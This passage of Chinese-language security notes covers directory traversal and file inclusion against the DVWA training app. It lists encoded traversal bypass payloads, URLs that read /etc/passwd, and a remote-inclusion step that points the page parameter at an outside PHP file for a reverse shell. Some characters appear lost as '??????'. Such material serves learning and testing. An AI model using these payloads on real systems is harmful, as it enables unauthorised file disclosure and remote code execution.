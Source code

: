 2. 使用多种编码尝试
3. url 编码或者进行双层甚至三层 url 编码
``` 
%2e%2e%2f 解码 ../
%2e%2e%5c 解码 ..\
%252e%252e%255c 解码 ..\
```

4. Unicode/UTF-8 解码
``` 
..%c0%af ?????? ../
..%u2216
..%c1%9c ?????? ..\
```

5. 其他系统路径可能使用的字符
``` 
file.txt…
file.txt
file.txt””””
file.txt<<<>>><
./././file.txt
nonexistant/../file.txt
```

6. UNC路径
``` 
\1.1.1.1\path\to\file.txt
```

* cookie 注入目录遍历

* 本地文件包含

* 远程文件包含
> 出现概率少于本地文件包含，但是更容易被利用  
> /usr/share/wfuzz/wordlist/vulns/

## 漏洞利用
> 默认的文件包含漏洞的 URL 地址：  
> http://10.10.10.132/dvwa/vulnerabilities/fi/?page=include.php

* 可以使用 “?page=../../../../../../../etc/passwd”
> http://10.10.10.132/dvwa/vulnerabilities/fi/?page=../../../../../../../etc/passwd

* 文件包含漏洞可以使用绝对路径
> http://10.10.10.132/dvwa/vulnerabilities/fi/?page=/etc/passwd

* 使用系统文件路径
> http://10.10.10.132/dvwa/vulnerabilities/fi/?page=file:///etc/passwd

* 远程目录遍历
> http://10.10.10.132/dvwa/vulnerabilities/fi/?page=http://www.sina.com

* 可以使用反弹 shell 的方式
> page=http://www.a.com/1.php
